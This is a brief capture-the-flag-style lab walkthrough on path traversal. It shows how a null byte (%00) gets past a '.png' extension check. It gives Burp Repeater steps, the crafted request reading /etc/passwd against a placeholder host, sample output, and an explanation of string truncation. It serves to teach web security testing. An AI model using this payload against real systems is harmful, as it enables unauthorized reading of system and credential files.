

🧪 Lab: File Path Traversal (Null Byte Extension Bypass)
🎯 Goal

Retrieve the contents of /etc/passwd

🛠️ Steps (Using Burp Suite Repeater)
1. Intercept the Request
Open the lab
Turn Intercept ON
Click on a product image

Captured request:

GET /image?filename=product.png HTTP/1.1
Host: target
2. Send to Repeater
Right-click → Send to Repeater
3. Modify the Payload

The app checks that the filename ends with .png
So we bypass using a null byte (%00):

GET /image?filename=../../../../etc/passwd%00.png HTTP/1.1
Host: target
4. Send the Request
Click Send
5. Observe the Response

You will see:

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...

✅ Successfully retrieved /etc/passwd

💡 Why This Works (Key Concept)

The application:

✅ Checks: filename ends with .png
❌ But doesn’t handle null byte properly
What happens internally:

Input:

../../../../etc/passwd%00.png
%00 → null byte (\0)
System reads:
../../../../etc/passwd

👉 Everything after %00 is ignored

🧠 Hacker Insight

This is called:
👉 Null byte injection

Real-world lesson:

Some systems (especially older ones) treat %00 as end of string
Validation passes, but execution uses truncated value

